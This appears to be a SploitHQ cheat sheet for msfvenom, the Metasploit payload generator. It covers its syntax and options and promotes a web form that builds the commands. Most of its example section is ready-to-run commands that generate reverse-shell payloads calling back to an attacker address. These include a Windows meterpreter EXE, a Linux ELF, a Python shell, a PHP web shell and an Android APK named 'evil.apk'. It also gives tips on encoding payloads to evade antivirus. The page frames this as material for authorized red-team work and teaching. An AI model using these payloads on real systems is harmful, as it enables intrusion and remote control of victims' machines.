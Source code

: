 # msfvenom – Payload Generator from Metasploit

**msfvenom** is a standalone payload generation utility bundled with the **Metasploit Framework**. It combines `msfpayload` and `msfencode` into one tool to generate payloads in various formats and optionally encode them to evade detection.

🔗 [Use the Payload Generator on SploitHQ](https://sploithq.com/payload-generator)

---

## 🔍 What Is msfvenom?

- Generates shellcode and executable payloads
- Supports Windows, Linux, macOS, Android, and more
- Output formats include EXE, ELF, APK, Bash, Python, PowerShell, etc.
- Can encode payloads to evade antivirus detection
- Useful for creating stagers, reverse shells, and bind shells

---

## ⚙️ Basic Syntax

```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output_file>
```

---

## 🧰 Common Options

| Option              | Description                                            |
|---------------------|--------------------------------------------------------|
| `-p <payload>`       | Specify the payload to use                            |
| `-f <format>`        | Output format (exe, elf, raw, c, python, etc.)        |
| `-o <file>`          | Output file                                            |
| `LHOST=<ip>`         | Local host (attacker IP)                              |
| `LPORT=<port>`       | Listening port on the attacker's machine              |
| `-e <encoder>`       | Use encoder (e.g. x86/shikata_ga_nai)                |
| `-b <badchars>`      | Avoid specified characters (e.g., `\x00`)             |
| `-a <arch>`          | Architecture (e.g., x86, x64)                         |
| `--platform <os>`    | Target platform (windows, linux, etc.)               |
| `--list payloads`    | List all available payloads                           |
| `--list encoders`    | List all encoders                                     |

---

## 🧪 Example Commands

### Windows reverse TCP shell (EXE)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o shell.exe
```

### Linux x64 reverse shell (ELF)
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f elf -o shell.elf
```

### Python reverse shell
```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.0.0.1 LPORT=4444 -f raw
```

### PHP web shell
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f raw > shell.php
```

### Android Meterpreter APK
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 R > evil.apk
```

---

## ⚠️ Tips and Warnings

- Many payloads require a handler to be running (via `msfconsole`)
- Encoding may help evade basic antivirus, but is not foolproof
- Always test payloads in a safe and authorized environment

---

## 🌐 SploitHQ Payload Generator

👉 [Build Custom Payloads with a Form](https://sploithq.com/payload-generator)

- Choose payload type and format
- Set LHOST, LPORT, encoder, badchars
- Instantly get your msfvenom command

---

## 🔗 Useful Links

- [Metasploit Payloads Documentation](https://docs.rapid7.com/metasploit/payloads/)
- [Metasploit GitHub](https://github.com/rapid7/metasploit-framework)
- [SploitHQ Payload Generator](https://sploithq.com/payload-generator)

---

## 📄 License

Metasploit and msfvenom are developed and maintained by Rapid7.  
This documentation is maintained by [SploitHQ](https://sploithq.com) for legal red team and educational use only.
